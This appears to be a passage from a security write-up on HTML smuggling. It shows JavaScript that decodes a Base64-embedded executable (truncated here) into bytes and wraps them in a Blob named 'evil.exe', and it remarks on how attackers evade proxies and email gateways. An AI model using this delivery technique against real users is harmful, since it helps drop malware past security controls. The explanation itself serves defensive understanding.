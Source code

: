 #### Base64 encoded data

```javascript
//convert function
function base64ToArrayBuffer(base64) {
    var binary_string = window.atob(base64);
    var len = binary_string.length;

    var bytes = new Uint8Array(len);
    for (var i = 0; i < len; i++) {
        bytes[i] = binary_string.charCodeAt(i);
    }
    return bytes.buffer;
}

//malware.exe encoded in Base64
var file = 'TVqQAAMAAAAEAAAA//8AALgAA[...]nBkYgA=';
var data = base64ToArrayBuffer(file);
```

As we observed, the malicious HTML file can deliver malware to the victim's machine through various methods. In this
scenario, the entire malware payload is encoded in base64 and embedded directly within the HTML file itself.
We can see the variable `file` containing the payload.

The function `base64ToArrayBuffer` converts the encoded payload into the actual bytes that make up the malicious file.

It is important to note that attackers can devise even more complex methods to deliver malware. For instance, they might
split the payload into several pieces, retrieve parts of it remotely, or use different encoding standards and encryption
techniques. These strategies significantly increase the likelihood of evading security measures such as web proxies,
firewalls, and email gateways.

#### JavaScript Blob

```javascript
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'evil.exe';
```

This is the core of the attack. The Blob object enables the creation of a file within the browser using JavaScript code.
Here is how Mozilla describes it:

```text
"The Blob interface represents a blob, which is a file-like object of immutable, raw data; they can be read as text or
binary data, or converted into a ReadableStream so its methods can be used for processing the data.
Blobs can represent data that isn't necessarily in a JavaScript-native format. The File interface is based on Blob,
inheriting blob functionality and expanding it to support files on the user's system."
```
